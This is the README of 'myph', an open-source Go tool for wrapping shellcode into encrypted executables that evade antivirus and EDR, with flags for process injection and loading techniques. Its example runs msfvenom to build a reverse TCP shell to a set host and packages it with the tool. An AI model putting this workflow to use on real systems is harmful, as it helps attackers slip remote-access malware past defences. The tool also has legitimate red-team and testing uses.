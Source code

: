 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## How to use the software ?

> Please note this project is under development & subject to changes.
> Breaking changes can be introduced from release to release.

### Compiling or Installing the project

You can easily compile like so:
```bash
# if you have make installed
make  # you can also use `make help` to check recipes

# if you don't
go build -o myph .
```

> You can also grab the latest release from [here](https://github.com/CMEPW/myph/releases/)

Finally, you can install from the [golang package repository](https://pkg.go.dev/github.com/CMEPW/myph) like so:
```bash
# /!\ lowercase is important /!\
go install github.com/cmepw/myph@latest
```

### Usage

```bash
Usage:
  myph [flags]

Flags:
  -e, --encryption encKind   encryption method. (allowed: AES, XOR, blowfish) (default AES)
  -h, --help                 help for myph
  -k, --key string           encryption key, auto-generated if empty. (if used by --encryption)
  -f, --out string           output name (default "payload.exe")
  -p, --process string       target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string     shellcode path (default "msf.raw")
      --sleep-time uint      sleep time before executing loader (default: 0)
  -t, --technique string     shellcode-loading technique (allowed: CRT, CreateThread) (default "CRT")
  -v, --version              version for myph
```

#### Methods

This tool supports few methods for now, but aims to add more as time goes on:
- CreateThread
- CreateRemoteThread

If you don't know what that is about, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~


#### Example

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --out something.exe

# you should find your payload here
file ./something.exe
```

#### Using docker

```bash
# using makefile
make docker

# going through dockerfile directly
docker build . -t myph:latest
```

### Contributing

Contributions are welcome, but please try to keep PRs short and issues descriptive. :)~

A guide on how to use the tool is in the works, please let us know if you're interested in helping out.
